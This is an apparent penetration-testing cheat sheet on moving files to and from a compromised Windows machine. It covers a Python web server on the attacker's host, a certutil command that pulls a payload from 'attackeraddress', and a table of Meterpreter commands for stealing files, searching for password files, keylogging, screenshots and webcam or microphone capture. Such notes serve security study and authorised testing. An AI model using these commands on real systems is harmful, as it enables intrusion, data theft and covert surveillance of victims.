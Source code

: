 # Windows

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
certutil -urlcache -f http://attackeraddress/filename <fileNameWhenDownloaded>    
```

| Part                              | Purpose                                               |
| --------------------------------- | ----------------------------------------------------- |
| `certutil`                        | Built-in Windows utility for cert management (LOLBIN) |
| `-urlcache`                       | Uses the URL cache functionality to fetch the file    |
| `-f`                              | Force download even if cached                         |
| `http://attackeraddress/filename` | Remote URL of the payload or file                     |
| `<fileNameWhenDownloaded>`        | Name to save the file as on disk                      |

{% hint style="warning" %}
imporant when we dont have a meterpreter seassion and we need to download or upload files using the system unitilitys services.
{% endhint %}

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |
